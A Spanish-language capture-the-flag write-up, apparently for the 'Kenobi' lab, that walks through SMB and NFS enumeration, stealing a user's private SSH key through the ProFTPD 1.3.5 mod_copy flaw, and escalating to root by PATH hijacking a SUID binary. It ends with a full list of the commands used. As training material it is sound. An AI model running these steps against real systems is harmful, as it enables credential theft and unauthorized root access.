# Write-up Kenobi

## Enumeracion

### Escaneo inicial

Empiezo con `nmap` para ver puertos, servicios y posibles vulnerabilidades:

`nmap -sC -sV -O -p 1-10000 -T4 IP`

`nmap -T4 --script vuln IP`

Puertos encontrados:

- 21/tcp FTP - ProFTPD 1.3.5
- 22/tcp SSH - OpenSSH
- 80/tcp HTTP - Apache 2.4.41
- 111/tcp rpcbind
- 139/tcp netbios-ssn
- 445/tcp microsoft-ds
- 2049/tcp nfs




### Enumeracion SMB

Reviso los recursos compartidos:

`smbclient -L //IP -N`

Shares encontrados:

- `print$`
- `anonymous`
- `IPC$`



Me conecto al share `anonymous` sin password:

`smbclient //IP/anonymous`



Dentro veo un unico archivo:

`log.txt`

Lo descargo con:

`get log.txt`

Al revisarlo encuentro informacion relacionada con la generacion de una clave SSH, detalles del servidor ProFTPD y, lo mas importante, el nombre del usuario:

`kenobi`



### Enumeracion NFS

Ahora reviso NFS:

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount IP`

Veo que `nfs-showmount` expone:

`/var`

Eso significa que puedo montar parte del filesystem remoto.



## Explotacion

### Analisis de ProFTPD

Busco informacion sobre la version de ProFTPD:

`searchsploit proftpd 1.3.5`



Encuentro que esta version es vulnerable por una mala configuracion del modulo `mod_copy`, que permite copiar archivos del sistema sin autenticacion si conozco bien las rutas.

### Copia de la clave privada

Me conecto al servicio FTP con `netcat` por el puerto 21:

`nc IP 21`



Una vez dentro, uso los comandos del modulo para copiar la clave privada de `kenobi` a una ruta bajo `/var`, que luego podre leer a traves del NFS montado:

`SITE CPFR /home/kenobi/.ssh/id_rsa`

`SITE CPTO /var/tmp/id_rsa`



Salgo de la sesion y monto el recurso NFS desde mi maquina atacante.

Primero creo el directorio:

`sudo mkdir /mnt/kenobi`

Luego monto:

`sudo mount IP:/var /mnt/kenobi`

Compruebo el contenido y veo la clave copiada.



Ahora la saco a mi equipo:

`cp /mnt/kenobi/tmp/id_rsa .`

Le ajusto permisos:

`chmod 600 id_rsa`

Y me conecto por SSH:

`ssh -i id_rsa kenobi@IP`




## Post-explotacion

### Enumeracion local

Ya dentro como `kenobi`, busco binarios SUID:

`find / -perm -u=s -type f 2>/dev/null`



El binario que mas me llama la atencion es:

`/usr/bin/menu`

Le saco strings para ver que ejecuta internamente:

`strings /usr/bin/menu`

Encuentro referencias a:

- `curl`
- `uname`
- `ifconfig`



Como no usa rutas absolutas, el binario es vulnerable a `PATH hijacking`.

## Escalado de privilegios

### PATH Hijacking sobre `/usr/bin/menu`

El sistema buscara comandos segun el orden de `PATH`, asi que preparo un falso `curl` en una ruta controlada por mi.

Me voy a `/tmp`:

`cd /tmp`

Creo el falso ejecutable:

`echo "/bin/sh" > curl`

Le doy permisos:

`chmod +x curl`

Pongo `/tmp` al principio del `PATH`:

`export PATH=/tmp:$PATH`

Ahora ejecuto el binario vulnerable:

`/usr/bin/menu`

El programa muestra varias opciones:

1. `status check`
2. `kernel version`
3. `ifconfig`

Selecciono la opcion `1`, que llama a `curl`, pero al estar secuestrado el `PATH` acaba ejecutando mi script y me abre una shell como `root`.

`whoami`

Resultado:

`root`



## Resultado

Consigo acceso total a la maquina aprovechando una mala configuracion de `ProFTPD` para robar la clave SSH de `kenobi`, y despues un `PATH hijacking` en un binario SUID para escalar hasta `root`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -p 1-10000 -T4 IP`
- `nmap -T4 --script vuln IP`
- `smbclient -L //IP -N`
- `smbclient //IP/anonymous`
- `get log.txt`
- `exit`
- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount IP`
- `searchsploit proftpd 1.3.5`
- `nc IP 21`
- `SITE CPFR /home/kenobi/.ssh/id_rsa`
- `SITE CPTO /var/tmp/id_rsa`
- `exit`
- `sudo mkdir /mnt/kenobi`
- `sudo mount IP:/var /mnt/kenobi`
- `cp /mnt/kenobi/tmp/id_rsa .`
- `chmod 600 id_rsa`
- `ssh -i id_rsa kenobi@IP`
- `find / -perm -u=s -type f 2>/dev/null`
- `strings /usr/bin/menu`
- `cd /tmp`
- `echo "/bin/sh" > curl`
- `chmod +x curl`
- `export PATH=/tmp:$PATH`
- `/usr/bin/menu`
- `whoami`
